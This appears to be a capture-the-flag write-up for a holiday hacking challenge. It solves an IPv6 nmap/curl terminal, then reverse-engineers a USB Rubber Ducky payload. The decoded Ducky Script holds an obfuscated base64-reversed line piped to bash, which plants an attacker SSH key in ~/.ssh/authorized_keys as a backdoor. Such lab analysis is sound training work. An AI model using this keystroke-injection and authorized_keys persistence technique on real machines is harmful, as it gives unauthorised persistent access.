 # 5) Strange USB Device

_Difficulty:_  :evergreen_tree: :evergreen_tree:

> Assist the elves in reverse engineering the strange USB device. Visit Santa's
> Talks Floor and hit up _Jewel Loggins_ for advice.

Jewel Loggins

> Well hello! I'm Jewel Loggins.  I have to say though, I'm a bit distressed.
> The con next door? Oh sure, I’m concerned about that too, but I was talking
> about the issues I’m having with IPv6.  I mean, I know it's an old protocol
> now, but I've just never checked it out.  So now I'm trying to do simple
> things like Nmap and cURL using IPv6, and I can't quite get them working!
> Would you mind taking a look for me on this terminal?  I think there's a
> Github Gist that covers tool usage with IPv6 targets.  The tricky parts are
> knowing when to use `[]` around IPv6 addresses and where to specify the source
> interface.  I’ve got a deal for you. If you show me how to solve this
> terminal, I’ll provide you with some nice tips about a topic I’ve been
> researching a lot lately – Ducky Scripts! They can be really interesting and
> fun!
\
> :link: **Tool Syntax with IPv6** [link](https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f)

## Challenge: Cranberry Pi Logic Munchers

```sh
$ ping6 ff02::2 -c2
$ nmap -6 fe80::42:c0ff:fea8:a002%eth0
Starting Nmap 7.70 ( https://nmap.org ) at 2021-12-23 12:21 UTC
Nmap scan report for fe80::42:c0ff:fea8:a002
Host is up (0.000080s latency)
Not shown: 998 closed ports.
PORT     STATE SERVICE.
80/tcp   open  http.
9000/tcp open  cslistener
$ curl http://[fe80::42:c0ff:fea8:a002]:9000 --interface eth0
PieceOnEarth
```

Jewl Loggins

> Great work! It seems simpler now that I've seen it once. Thanks for showing me!
> Prof. Petabyte warned us about random USB devices. They might be malicious
> keystroke injectors!  A troll could program a keystroke injector to deliver
> malicious keystrokes when it is plugged in.  Ducky Script is a language used to
> specify those keystrokes.  What commands would a troll try to run on our
> workstations?  I heard that SSH keys can be used as backdoors. Maybe that's
> useful?
\
> :link: **Account Manipulation: SSH Authorized Keys** \
     [link](https://attack.mitre.org/techniques/T1098/004/)

* [Ducky Script][ducky-script] is the language for the USB Rubber Ducky
* Attackers can encode Ducky Script using a [duck encoder][duck-encoder] \
    for delivery as `inject.bin`
* It's also possible the reverse engineer encoded Ducky Script using [Mallard][mallard]

[ducky-script]: https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language
[duck-encoder]: https://docs.hak5.org/hc/en-us/articles/360010471234-Writing-your-first-USB-Rubber-Ducky-Payload
[mallard](https://github.com/dagonis/Mallard)

> What is the troll **username** involved with this attack? -> Answer: _ickymcgoop_

`python Mallard/mallard -f ./input.bin > ducky_script.txt`

```text
ENTER
DELAY 1000
...
DELAY 200
STRING echo ==gCzlXZr9FZlpXa....VBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
```

Executing `echo ==gCzlXZr9FZlpXa....VBSYzJXLoboNWZ | rev | base64 -d | bash` yields

```sh
echo 'ssh-rsa UmN5RHJZWHdr...SUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```
